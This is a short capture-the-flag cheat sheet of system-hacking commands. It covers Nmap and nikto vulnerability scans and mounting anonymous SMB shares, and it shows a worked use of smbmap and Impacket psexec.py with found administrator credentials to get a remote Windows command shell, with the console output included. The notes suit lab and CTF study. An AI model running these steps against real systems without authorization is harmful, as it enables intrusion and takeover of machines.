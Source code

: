 ```yaml
---
header:
  
layout: single
classes: wide
author_profile: false
categories:
  - Hacking
tags:
  - capture-the-flag
  - hacking
  - cryptography
  - web-security
  - image-forensics
  - Pentesting
  - system-hacking
---
```


# System Hacking
* To discover the system in the network, use either Nmap or Netdiscover
* To scan for vulnerabilities use nikto.
  * Command to run : `nikto -h <HOST_IP>`
* To scan for vulnerbilities we can use Nmap also.
  * `namp -sV <HOST_IP>`
  * `nmap --script vuln <HOST_IP>`  -- Useful for getting Vulnerabilities on system
  * `nmap -sS -T4 -A -p- <HOST_IP>` -- Useful for All Ports, SYN Scan and OS detection
  * `nmap --script ssl-enum-ciphers -p 443  <HOST_IP>` -- Gives rating for SSL Ciphers
* If port 80 is open, use robots.txt to find any hidden flags.
* If Anonymous SMB is open, we can mount shares like this
  ```
  root@kali:~/CTF# mkdir /mnt/smb
  root@kali:~/CTF# mount -t cifs //<HOST_IP>/Backups /mnt/smb/
  Password for root@//<HOST_IP>/Backups: 
  ```
* If we found Administrator Creds, we can use this method to get root shell
  ```
  root@kali:/opt/impacket/examples# smbmap -u administrator -p password -H <HOST_IP>
  [+] Finding open SMB ports....
  [+] User SMB session establishd on <HOST_IP>...
  [+] IP: <HOST_IP>:445	Name: <HOST_IP>                                      
	 Disk                                                  	Permissions
	 ----                                                  	-----------
	 ADMIN$                                            	READ, WRITE
	 Backups                                           	READ, WRITE
	 C$                                                	READ, WRITE
	 IPC$                                              	READ ONLY
  root@kali:/opt/impacket/examples# python psexec.py administrator@<HOST_IP>
  Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

  Password:
  [*] Requesting shares on <HOST_IP>.....
  [*] Found writable share ADMIN$
  [*] Uploading file tJJmcVQN.exe
  [*] Opening SVCManager on <HOST_IP>.....
  [*] Creating service RKAe on <HOST_IP>....
  [*] Starting service RKAe.....
  [!] Press help for extra shell commands
  Microsoft Windows [Version 10.0.14393]
  (c) 2016 Microsoft Corporation. All rights reserved.

  C:\Windows\system32>
  ```